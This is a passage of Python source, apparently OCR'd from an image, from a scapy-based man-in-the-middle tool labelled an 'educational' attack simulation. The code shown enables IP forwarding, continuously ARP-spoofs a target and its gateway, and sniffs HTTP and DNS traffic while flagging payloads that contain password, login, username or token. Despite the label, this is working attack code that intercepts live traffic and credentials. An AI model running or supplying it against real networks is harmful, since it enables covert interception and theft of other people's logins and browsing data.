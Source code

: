 ```python
                      packet[http.HTTPRequest].Path.decode()
                print(f"🌐 HTTP Request intercepted: {url}")
                
                # Check for sensitive data
                if packet.haslayer(scapy.Raw):
                    load = packet[scapy.Raw].load.decode(errors='ignore')
                    keywords = ['password', 'login', 'username', 'token']
                    
                    for keyword in keywords:
                        if keyword.lower() in load.lower():
                            print(f"🚨 Potential sensitive data detected: {keyword}")
                            
            elif packet.haslayer(scapy.DNSQR):
                # DNS query interception
                dns_query = packet[scapy.DNSQR].qname.decode()
                print(f"🔍 DNS Query intercepted: {dns_query}")
                
        except Exception as e:
            print(f"❌ Packet analysis error: {e}")
    
    def start_attack(self):
        """Start MITM attack simulation"""
        print("🚀 Starting MITM Attack Simulation...")
        print("⚠️  This is for educational purposes only!")
        print(f"🎯 Target: {self.target_ip}")
        print(f"🌐 Gateway: {self.gateway_ip}")
        
        # Enable IP forwarding
        import os
        os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
        
        self.is_running = True
        
        try:
            # Start packet sniffing in separate thread
            sniff_thread = threading.Thread(
                target=lambda: scapy.sniff(
                    iface=self.interface,
                    store=False,
                    prn=self.packet_sniffer,
                    stop_filter=lambda x: not self.is_running
                )
            )
            sniff_thread.start()
            
            # Continuous ARP spoofing
            while self.is_running:
                # Spoof target that we are the gateway
                self.spoof_arp(self.target_ip, self.gateway_ip)
                
                # Spoof gateway that we are the target
                self.spoof_arp(self.gateway_ip, self.target_ip)
                
                time.sleep(2)
                
        except KeyboardInterrupt:
            print("\n🛑 Attack simulation stopped by user")
            self.stop_attack()
        except Exception as e:
            print(f"❌ Attack simulation error: {e}")
            self.stop_attack()
    
    def stop_attack(self):
```